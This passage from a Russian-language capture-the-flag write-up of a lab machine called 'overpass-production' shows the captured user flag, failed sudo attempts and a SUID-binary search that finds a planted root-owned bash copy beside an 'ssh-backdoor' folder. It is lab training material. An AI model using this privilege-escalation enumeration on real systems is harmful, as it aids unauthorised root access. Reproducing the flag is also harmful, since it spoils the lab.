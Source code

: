 ```
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
```


## ⚙️ Привилегии

Ищу векторы повышения привилегий
```
james@overpass-production:/home/james$ sudo -l
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
sudo: 3 incorrect password attempts
llmes@overpass-production:/home/james$ find / -type f -perm -04000 -ls 2>/dev/nul
      499     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
      844    148 -rwsr-xr-x   1 root     root       149080 Jan 31  2020 /usr/bin/sudo
      497     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
      739     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
      880     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
      703     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newuidmap
      701     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newgidmap
      719     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
      592     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
      446     52 -rwsr-sr-x   1 daemon   daemon      51464 Feb 20  2018 /usr/bin/at
      702     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
     1254    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     7178     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1258     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7392    100 -rwsr-xr-x   1 root     root         100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1072     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   262241     44 -rwsr-xr-x   1 root     root          43088 Jan  8  2020 /bin/mount
   262214     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   262281     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   262265     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
   262299     28 -rwsr-xr-x   1 root     root          26696 Jan  8  2020 /bin/umount
   268869   1088 -rwsr-sr-x   1 root     root        1113504 Jul 22  2020 /home/james/.suid_bash
```
